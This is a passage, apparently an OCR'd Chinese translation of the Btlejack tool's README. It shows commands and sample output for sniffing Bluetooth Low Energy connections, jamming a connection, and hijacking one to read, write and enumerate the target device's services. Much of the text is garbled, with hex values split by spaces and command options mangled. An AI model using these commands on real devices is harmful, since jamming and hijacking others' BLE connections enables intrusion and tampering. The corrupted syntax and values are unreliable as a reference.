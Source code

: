 如果您正在使用 1 个以上的 microbit，Btlejack 将并行执行一些嗅探操作，以加速连接参数恢复！

**嗅探新连接**

btlejack 支持的-c 选项允许您指定目标 BD 地址，或者您可能希望使用 any 来捕获任何新创建的连接。

$ btlejack -c any
BtleJack 版本 1.1
[i]检测到的嗅探器:
嗅探器#0:版本 1.1
嗅探器#1:版本 1.1
LL 数据:05 22 df B4 6f 95 C5 55 c00a F6 99 23 40 1d 7b 2f 0a 9a F4 93 01 12 00 27 00 00 d0 07 ff ff ff 1f 0b【T5[I] 从 55:c5:95:6f:b4:df 到 40:23:99:F6:0a:c0
|–访问地址:0x 0a 2 f 7 B1 d
|–CRC 初始值:0x 93 f 49 a
|–跳间隔:39
|–跳增量:11
|–信道映射:1 fffffffff
|–超时:20000 ms
LL 数据:03 09

或者您可能还想指定目标 BD 地址:

**$ btle jack-c 03:E1:F0:00:11:22**

**堵塞连接**

一旦一个连接被它的*访问地址*识别，你可以通过使用`-j`选项提供 jam 它:

**$ btlejack-f0x 129 f 3244**

**劫持 BLE 连线**

Btlejack 也能够劫持一个现有的连接，使用`-t`选项来这样做。一旦被劫持，Btlejack 会给你一个提示，让你与被劫持的设备进行交互。

首先，劫持一个现有的连接:

$ btle jack-f 0x 9 c 68 FD 30-t-m 0x 1 fffffffff
btle jack 版本 1.1
[i]使用缓存参数(创建于 2018-08-11 01:48:24)
[i]检测到嗅探器:
嗅探器#0: fw 版本 1.1
[i]与连接 0x 9 c 68 FD 30…
CRCInit:0x81f 733

然后使用以下命令与设备进行交互:–discover:执行服务和特征枚举，将为您提供有关服务和特征的所有信息–write:将数据写入特定值句柄–read:从特定值句柄读取数据–ll:发送原始链路层数据包(针对 ninjas)

**发现命令**

discover 命令将发送和接收蓝牙 LE 数据包，并检索所有服务 uuid 和参数，以及特征 uuid 和参数:

btle jack > discover
start:0001 end:0005
start:0014 end:001 a
start:0028 end:ffff
发现的服务:
服务 UUID: 1801
特性 UUID: 2a05
| handle: 0002
|属性:indicate (20)
\值 handle: 0003
服务 UUID: 1800
特性 UUID: 2a04 值句柄:0016
特征 UUID: 2a01